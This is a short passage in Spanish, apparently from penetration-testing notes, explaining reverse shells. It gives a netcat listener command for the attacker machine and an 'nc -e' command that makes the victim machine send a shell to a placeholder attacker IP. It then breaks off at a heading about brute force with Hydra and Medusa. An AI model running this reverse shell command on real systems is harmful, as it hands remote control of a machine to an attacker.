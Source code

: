 **Reverse Shell**:

Especialmente util ya que la mayoria de bind shells no funcionara por los firewalls.

Maquina atacante:

``` bash
nc -nlvp [puerto]
```

En la maquina victima:

``` bash
nc -e /bin/[shellbin] [IP_Atacante] [Puerto]
```

---

## Explotacion 2 - Fuerza Bruta con Hydra y Medusa

[...]